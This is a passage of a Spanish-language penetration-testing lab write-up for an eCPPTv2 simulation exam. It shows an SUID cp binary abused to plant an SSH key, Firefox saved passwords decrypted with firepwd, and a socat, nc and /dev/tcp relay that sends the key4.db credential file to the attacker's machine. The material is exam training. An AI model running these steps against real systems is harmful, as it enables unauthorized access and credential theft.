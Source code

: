 ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 54.png)

En el directorio /home/ se encuentran dos carpetas de usuarios.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 55.png)

En el directorio de hermoine hay un binario SUID el cual actúa como un cp.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 56.png)

Se podría aprovechar de esto para copiar un archivo authorized_keys con la llave pública del atacante y meterla en el directorio .ssh de hermoine.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 57.png)

Ahora es posible conectarse por medio de ssh como el usuario hermoine utilizando proxychains:

```bash
proxychains ssh hermoine@20.20.20.5
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 58.png)

### Uso de firepwd

Dentro del directorio de hermoine hay un directorio .mozilla, esto significa que puede llegar a haber perfiles de usuarios con contraseñas, en este caso dentro del directorio firefox hay un perfil creado y dentro de él están los archivos “key4.db” y “logins.json”.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 59.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 60.png)

Con estos archivos es posible obtener las credenciales en texto plano usando la herramienta firepwd.

Instalación:

```bash
git clone https://github.com/lclevy/firepwd
cd firepwd
python3 -m venv env1
source env1/bin/activate
pip3 install -r requirements.txt
```

Nota: en este caso se usará un entorno virtual para instalar los requerimientos y evitar problemas.

Ahora se transferirán los archivos key4.db y logins.json a la máquina atacante, para esto se usará la máquina Aragog de nodo intermediario con socat.

```bash
# En la máquina Aragog
./socat TCP-LISTEN:2020,fork TCP:192.168.0.104:3030

# En la máquina atacante
nc -nlvp 3030 > key4.db

# En la máquina Nagini
cat < key4.db > /dev/tcp/192.168.0.103/2020
```
